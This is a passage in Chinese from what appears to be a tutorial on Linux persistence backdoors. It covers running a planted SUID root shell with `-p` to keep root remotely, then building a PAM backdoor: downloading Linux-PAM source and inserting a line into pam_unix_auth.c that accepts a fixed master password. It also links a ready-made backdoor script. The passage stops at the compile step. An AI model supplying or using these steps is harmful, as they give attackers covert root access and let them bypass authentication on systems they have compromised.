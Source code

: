 下次如果从普通用户登录服务器，就能用命令：`/.shell` ，运行这个 shell，从而获得 **root** 权限。
但是，bash2针对 SUID Shell 做了一些**护卫措施**，所以如果使用上述命令运行 .shell ，只能当你在**本地**下（非远程连接）才能让 shell 的权限升为 root ，若是在远程运行，则还是原来的权限不变。

对于这种情况，需要使用这个命令运行：`/.shell -p`，这样在远程下也能获得 root 的 shell 了>

### 实现
![image-20230426005121969](https://res.cloudinary.com/sycamore/image/upload/v1682441485/Typera/2023/04/7f3bd66ffe0223053f8eec312efe1e52.png)
whoami 为 root

## PAM后门
### PAM简介：
在Linux中执行某些程序时，执行前要先对启动它的用户进行认证，比如我们经常使用的 **su**命令。
但是，实际工作时，我们常常得用**不同的认证机制**去认证不同程序的账号口令，这就会导致一个主机上有多个**不同的认证系统**，这显然是不合理的。
所以就有了**PAM机制**。**PAM** 可以说是一套**API**，使管理员可以随意地选择程序的认证方式。
PAM使用目录**/etc/pam.d/**下的配置文件，即对应着不同的认证方式。程序调用目录下相应的配置文件，从而调用本地的认证模块（**/lib/security/**）。

### 后门思路：
我们**登录**的时候，也是用PAM模块来验证我们的密码是否正确的。
所以，我们可以从源码中找到**PAM**的传统密码验证模块（pam_unix.so），**修改PAM的验证逻辑**，达成不去跟shadow里的密码校验，而是**直接返回验证正确**的效果，
然后编译出**包含后门的so文件**，替换原模块。

### 实现：
1. 直接使用脚本：https://github.com/litsand/shell/blob/master/pam.sh
2. 手动更改

#### 下载PAM源码
首先确认PAM版本：
- Debian：`dpkg -s libpam-modules | grep -i version | cut -d' ' -f2`
- Centos：`rpm -qa|grep pam`

以我的kali为例，使用`dpkg -s libpam-modules | grep -i version | cut -d' ' -f2`，得到输出：**1.4.0-11**
去 http://www.linux-pam.org/library/ 或者GitHub发布稳定版的地址 https://github.com/linux-pam/linux-pam/releases，下载到自己版本的源码：
**下载**：` wget https://github.com/linux-pam/linux-pam/releases/download/v1.4.0/Linux-PAM-1.4.0.tar.xz`
**解压**：`tar -xvf Linux-PAM-1.4.0.tar.xz`

#### 修改源码

**效果1：自定义密码添加：**

修改解压目录下的`/modules/pam_unix/pam_unix_auth.c`文件：
第173行下加入：`if (strcmp(p,"密码")==0) {return PAM_SUCCESS;}`

![image-20230426005137550](https://res.cloudinary.com/sycamore/image/upload/v1682441501/Typera/2023/04/34fdc632b2e79b17065c6ee808b2095f.png)

很简单的代码：当输入的 p 和我们设定的 "密码" 相同的时候，返回直接验证成功。

**编译：**
